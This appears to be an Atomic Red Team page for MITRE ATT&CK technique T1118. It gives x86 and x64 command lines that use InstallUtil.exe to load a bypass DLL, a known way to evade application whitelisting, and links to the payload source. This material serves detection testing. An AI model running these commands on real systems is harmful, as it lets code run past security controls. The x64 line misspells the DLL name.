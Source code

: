 ## InstallUtil

MITRE ATT&CK Technique: [T1118](https://attack.mitre.org/wiki/Technique/T1118)

### Execution Examples:

Input:

    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U InstallUtilBypass.dll

    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U InastallUtilBypass.dll

## Test Script

[InstallUtilBypass.cs](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/InstallUtilBypass.cs)
